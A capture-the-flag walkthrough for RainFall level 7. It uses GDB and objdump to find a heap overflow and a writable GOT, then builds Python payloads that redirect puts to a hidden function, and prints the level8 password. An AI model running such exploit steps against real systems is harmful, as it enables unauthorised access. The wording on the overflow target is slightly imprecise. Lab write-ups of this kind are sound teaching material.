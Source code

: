 
# RainFall Walkthrough — Level 7 → Level 8

## Step 1 — Initial Recon

We start as **level7**:

We inspect the binary protections upon connecting:

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7

``` 

## Step 2 — First Execution Tests

Running the binary:

```bash
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)

level7@RainFall:~$ ./level7 asdasdasd
Segmentation fault (core dumped)

level7@RainFall:~$ ./level7 asdasdasd asdasdasdasd
~~

```

The program crashes with **1 argument**, prints `~~` with **2 arguments**, and still behaves strangely with **3 arguments**. This suggests memory handling issues with the arguments.

## Step 3 — Disassembly in GDB

Open the binary in `gdb`:

```bash
gdb ./level7

```

List functions:

```bash
(gdb) info functions

```

We see:

-   `main` at `0x08048521`
    
-   A function `m` at `0x080484f4`
    

Disassembling `main` shows multiple calls to `malloc`, then two calls to `strcpy` that copy **argv[1]** and **argv[2]** into heap-allocated buffers.

At the end of `main`, the binary calls:

```c
fopen(".pass", "r");
fgets(buffer, 0x44, fp);
puts("~~");

```

So the program is clearly dealing with the **next level’s password file**.

## Step 4 — Global Variables

Inspecting variables:

```bash
(gdb) info variables
...
0x08049960  c

```

There’s a global variable `c` at `0x08049960`.

## Step 5 — Disassembling Function `m`

Disassembling `m`:

```asm
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>

```

This function prints something based on time, but most importantly **it prints the value stored in c** ! Meaning we need `m()` executed.

## Step 6 — GOT Overwrite Attack

Since **RELRO is disabled**, we can overwrite a **GOT entry** (Global Offset Table). Looking at relocations:

```bash
objdump -R ./level7 | grep puts
08049928 R_386_JUMP_SLOT   puts

```

So `puts@GOT` is at **0x08049928**. If we overwrite this with the address of `m` (`0x080484f4`), any call to `puts` will instead execute `m()`.

## Step 7 — Crafting the Payload

We need two arguments:

-   **argv[1]** → long buffer overflow to reach and overwrite the return flow.
    
-   **argv[2]** → payload to overwrite GOT.
    

We build payloads:

```bash
python -c 'print "a" * 20 + "\x28\x99\x04\x08"' > /tmp/p1   # argv[1]
python -c 'print "\xf4\x84\x04\x08"' > /tmp/p2              # argv[2] (address of m)

```

Then run:

```bash
./level7 $(cat /tmp/p1) $(cat /tmp/p2)

```

## Step 8 — Success

The program prints:

```bash
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1756909538

```

That is the **password for level8**.

## Final Step — Verify

```bash
level7@RainFall:~$ su level8
Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

```


We now have access to **level8**! 
